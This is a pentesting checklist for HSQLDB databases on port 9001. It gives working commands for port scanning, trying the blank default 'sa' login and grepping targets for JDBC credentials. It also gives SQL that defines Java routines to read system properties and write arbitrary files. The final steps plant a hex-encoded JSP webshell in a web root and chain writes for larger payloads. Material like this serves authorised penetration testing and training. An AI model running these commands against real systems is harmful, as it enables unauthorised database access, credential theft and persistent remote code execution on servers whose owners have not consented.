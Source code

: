 # HSQLDB (Port 9001) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating HSQLDB (port 9001), I realistically expect to find:

- [ ] Default or weak credentials (often `sa` with no password)
- [ ] Access to in-memory or disk-based databases
- [ ] Ability to read Java system properties
- [ ] Possibility to write files via Java Language Routines
- [ ] Rare but critical RCE via abuse of Java methods

---

## ✅ HSQLDB Pentest Checklist

- [ ] **Port Discovery**
  - Check if port 9001 is open and discover service.
    ```
    nmap -sV -p9001 <IP>
    ```

- [ ] **Identify Default Credentials**
  - Try common default combo:
    ```
    Username: sa
    Password: (blank)
    ```

- [ ] **Hunt for Creds on Target**
  - Search local filesystems for JDBC connection strings.
    ```
    grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
    ```

- [ ] **Connection**
  - Download HSQLDB and use the GUI client:
    ```
    java -jar hsqldb.jar
    ```
  - Example JDBC connection string:
    ```
    jdbc:hsqldb:hsql://<IP>/DBNAME
    ```

- [ ] **Check Java System Properties**
  - Create function to read system properties:
    ```sql
    CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR
    LANGUAGE JAVA
    DETERMINISTIC NO SQL
    EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty';
    ```
  - Execute:
    ```sql
    VALUES(getsystemproperty('user.name'));
    ```
  - Common system property keys:
    - `os.name`
    - `os.version`
    - `user.name`
    - `user.home`

- [ ] **Write Arbitrary Files**
  - Create procedure to write to disk:
    ```sql
    CREATE PROCEDURE writetofile(
      IN paramString VARCHAR,
      IN paramArrayOfByte VARBINARY(1024))
    LANGUAGE JAVA
    DETERMINISTIC NO SQL
    EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename';
    ```
  - Execute (example for JSP webshell):
    ```sql
    CALL writetofile('/path/to/webroot/shell.jsp',
      CAST ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a...' AS VARBINARY(1024)));
    ```

---

## ✅ Example Exploit Scenarios

- **Reading system info**
```
VALUES(getsystemproperty('os.name'));
VALUES(getsystemproperty('user.home'));
```


- **Writing a Webshell**
- Encode JSP content to hex
- Cast to VARBINARY and write:
  ```
  CALL writetofile('/var/www/html/shell.jsp', CAST ('<hex_payload>' AS VARBINARY(1024)));
  ```

---

## ✅ Notes & Tips

- By default, HSQLDB often listens only on localhost.
- Common exploitation context is *post-initial access* (privilege escalation).
- Java Language Routines require methods/classes to be in the target’s classpath.
- File write payload limited to 1024 bytes at a time.
- Explore chained writes or uploading larger payloads in parts if possible.

---

## ✅ Resources

- [HSQLDB Official Site](http://hsqldb.org/)
- [Java System Properties Reference](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html)


